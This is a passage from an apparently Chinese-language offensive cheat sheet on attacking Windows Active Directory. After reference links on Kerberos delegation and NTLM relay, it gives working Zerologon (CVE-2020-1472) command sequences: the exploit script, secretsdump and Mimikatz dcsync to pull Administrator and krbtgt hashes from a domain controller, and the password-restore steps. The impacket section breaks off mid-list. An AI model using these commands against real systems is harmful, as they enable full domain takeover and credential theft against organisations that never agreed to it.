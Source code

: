 - [Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [s4u2pwnage](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
- [Attacking Kerberos Delegation](https://xz.aliyun.com/t/2931)
- [用打印服务获取域控](https://adsecurity.org/?p=4056)
- [Computer Takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
- [Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [CVE-2019-1040](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)

##### 地址解析协议

实在搞不定再搞ARP

##### zerologon漏洞



~~~ABAP
python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>

secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator" 

secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>

python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>
~~~

[CVE-2020-1472的分析与复现 (0range-x.github.io)](https://0range-x.github.io/2021/11/22/CVE-2020-1472/)

**1、利用Mimikatz **check

```
lsadump::zerologon /target:dc1.exploit.local /account:dc1$
```

**exploit**

```
lsadump::zerologon /target:dc1.exploit.local /account:dc1$ /exploit
```

**dcsync**

```
lsadump::dcsync /dc:dc1.exploit.local /authuser:dc1$ /authdomain:exploit.local /authpassword:"" /domain:exploit.local /authntlm /user:krbtgt
```

**restore**

```
lsadump::postzerologon /target:conttosson.locl /account:dc$ 
```

**2、利用impacket：**

- 取目标主机名+IP
- install 修改版本的impacket
- Exp
